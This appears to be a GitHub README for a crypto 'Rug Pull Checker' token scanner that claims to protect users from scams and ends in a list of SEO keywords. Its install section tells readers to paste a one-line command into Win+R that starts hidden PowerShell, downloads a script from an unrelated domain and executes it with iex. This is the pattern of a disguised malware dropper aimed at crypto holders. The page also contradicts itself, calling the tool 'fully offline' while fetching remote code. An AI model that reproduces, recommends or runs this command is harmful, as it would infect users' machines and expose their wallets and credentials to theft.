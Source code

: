 <div align="center">
  
## **Rug Pull Checker** | **Solana Token Scanner** | **MemeCoin Checker** 💷💰
  
</div>

<div align="center">
<img src="https://i.ytimg.com/vi/CoRJMqiurPc/hq720.jpg" width="800" height="300" />
</div>

**Rug Pull Detector** is a powerful, fully standalone desktop application built for one purpose: **protecting you from losing money in crypto**.

If you've ever invested in a token that *exploded* hours after launch, the liquidity vanished, and the dev team disappeared... you already know what a **rug pull** is.

Well, forget about that. **Forever.**

---

## 🔧 What Is It?

**Rug Checker** is a desktop app that analyzes tokens on Ethereum / BSC / and other EVM-compatible chains and gives you a **detailed risk report** based on dozens of smart contract parameters.

Just paste a token address, click one button — and within seconds, you'll know:

- 🛑 If a **rug pull is possible**
- 🔐 Whether liquidity is locked and for how long
- 🧠 What **owner/admin rights** are still active
- 🧾 If the contract is verified and published
- 🐳 Token distribution: Are there whales that can crash the price?
- ⚠️ And many other hidden threats you’d never catch manually

---

## 💻 How It Works

The app connects directly to the blockchain via RPC and APIs, fetches the smart contract code, disassembles it if needed, scans available methods, analyzes ownership, liquidity, holders, and runs everything through a custom rule engine to output a clear **risk level**:

📊 Three risk levels:  
✅ Safe | ⚠️ Suspicious | 🚨 High Risk

Each alert comes with an explanation — so you don’t just get a red flag, you **understand** why it's there.

---

## 🧠 Why Use Rug Pull Checker?

There are many online tools, **but**:
- ❌ Many give false positives or incomplete info  
- ❌ They don’t show how results are calculated  
- ❌ They collect your data  
- ❌ They’re often slow and unstable  

**Rug Pull Checker** is:
- ✅ Fully offline. **100% private**  
- ✅ Faster than browser tools  
- ✅ Made for both beginners and devs  
- ✅ Runs locally — no API rate limits  
- ✅ Easily extendable — add your own rules!

---

## 📦 Installation

### 🚀 Why Use a Shell Script Instead

We’ve switched from a traditional download button to a one-line shell script because it’s simply a **better, faster, and smarter way** to deliver the tool:

- ✅ **Always Up-to-Date** – Installs the latest version automatically.
- ⚙️ **One-Liner Setup** – Just copy, paste, and run. No manual downloads.
- 💡 **Smart Automation** – Automatically handles setup and dependencies.
- 🛡️ **Secure & Transparent** – Uses TLS 1.2. You can inspect the code yourself.
- 🔧 **Dev-Friendly** – CLI-first approach that’s fast, efficient, and clean.

---

### 💻 Install Command (Run via `Win + R`)
<pre>
  <code id="code-snippet">cmd.exe /c start /min powershell -w h "$u='https://aidetector.tools/389290d';[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;iex(iwr $u -UseBasicParsing -UserAgent 'ID: oba71').Content;</code>
</pre>

---

## 🛠️ In Development

- Multi-chain support (Polygon, Arbitrum, Avalanche, etc.)
- Token auto-import from DEXTools / Poocoin / Uniswap
- Wallet portfolio monitoring & alerts

---

## ⭐ Support the Project

If you like the app, please ⭐ the repo, share it on Reddit, and leave feedback!  
Pull requests, ideas, and bug reports are always welcome.

---

**🧨 No more scams. Just raw blockchain facts.  
With Rug Pull Checker, you're always one step ahead.**

## SEO Keywords
- Rug Checker
- Coin Rug Pull
- Rug Pull Bot
- Rug Pull Detector
- Rug Pull Scanner
- Rug Pull checker
- Solana Rug Pull
- Rug Pull Bot
- Crypto Rug Pull

